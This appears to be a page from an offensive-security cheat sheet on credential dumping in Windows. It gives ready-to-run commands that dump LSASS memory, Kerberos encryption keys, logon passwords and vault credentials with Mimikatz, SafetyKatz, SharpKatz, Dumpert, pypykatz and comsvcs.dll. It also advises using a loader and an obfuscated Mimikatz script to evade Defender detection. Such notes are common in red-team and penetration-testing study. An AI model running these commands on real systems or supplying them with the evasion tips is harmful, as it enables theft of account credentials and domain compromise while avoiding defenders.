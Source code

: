 # Credentials Dumping

## LSASS

{% hint style="warning" %}
High chances of detection. Always use the Loader.exe to use these. Otherwise, it will be detected by the defender.
{% endhint %}

Use [impacket ](https://github.com/fortra/impacket)if you are using a Linux machine as an attacker machine. Instead of Mimikatz a obfuscated version called **Invoke-Mimi.ps1**(inside _Tools_ folder) can be used too.

### Kerberos encryption keys

The Kerberos SSP used by LSASS in order to provide different authentication methods.\
Therefore, it possible to dump Kerberos encryption keys using `sekurlsa::ekeys`.

```powershell
# Dump credentials on a local machine using Mimikatz.
Invoke-Mimikatz -Command '"sekurlsa::ekeys"' 

# Using SafetyKatz (Minidump of lsass and PELoader to run Mimikatz)
SafetyKatz.exe "sekurlsa::ekeys" 

# Dump credentials Using SharpKatz (C# port of some of Mimikatz functionality).
SharpKatz.exe --Command ekeys

# Dump credentials using Dumpert (Direct System Calls and API unhooking)
rundll32.exe C:\Dumpert\Outflank-Dumpert.dll,Dump

# Using pypykatz (Mimikatz functionality in Python)
pypykatz.exe live lsa

# Using comsvcs.dll
tasklist /FI "IMAGENAME eq lsass.exe"
rundll32.exe C:\windows\System32\comsvcs.dll, MiniDump
<lsass process ID> C:\Users\Public\lsass.dmp full 
```

### Logon Passwords

This usually shows recently logged on user and computer credentials.

```powershell
Invoke-Mimikatz -Command '"sekurlsa::logonpasswords"' 
```

## Vault

Enumerates vault credentials of scheduled tasks.

```powershell
Invoke-Mimi -Command '"token::elevate" "vault::cred /patch"'
```

####

